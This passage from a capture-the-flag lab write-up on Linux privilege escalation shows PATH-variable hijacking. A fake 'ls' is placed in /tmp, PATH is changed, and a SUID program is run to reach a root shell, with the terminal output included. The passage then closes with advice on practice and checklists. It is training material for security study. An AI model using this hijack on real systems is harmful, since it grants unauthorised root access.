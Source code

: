 `chmod +x ls`

6. Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "ls" stored! We do this using the command "export PATH=/tmp:$PATH" Note, this will cause you to open a bash prompt every time you use "ls". If you need to use "ls" before you finish the exploit, use "/bin/ls" where the real "ls" executable is. Once you've finished the exploit, you can exit out of root and use "export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH" to reset the PATH variable back to default, letting you use "ls" again!

`No answer needed`

7. Now, change directory back to user5's home directory.

```
user5@polobox:/tmp$ cd ~
user5@polobox:~$ ls
Welcome to Linux Lite 4.4 user5
 
Monday 19 October 2020, 14:42:40
Memory Usage: 343/1991MB (17.23%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user5@polobox:~$
```

`No answer needed`

8. Now, run the "script" file again, you should be sent into a root bash prompt! Congratulations!

```
user5@polobox:~$ ./script 
Welcome to Linux Lite 4.4 user5
 
Monday 19 October 2020, 14:43:24
Memory Usage: 347/1991MB (17.43%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~# 
```

`No answer needed`

## Task 10 Expanding Your Knowledge

**Further Learning**

There is never a "magic" answer in the huge area that is Linux Privilege Escalation. This is simply a few examples of basic things to watch out for when trying to escalate privileges.The only way to get better at it, is to practice and build up experience. Checklists are a good way to make sure you haven't missed anything during your enumeration stage, and also to provide you with a resource to check how to do things if you forget exactly what commands to use.

Below is a list of good checklists to apply to CTF or penetration test use cases.Although I encourage you to make your own using CherryTree or whatever notes application you prefer.
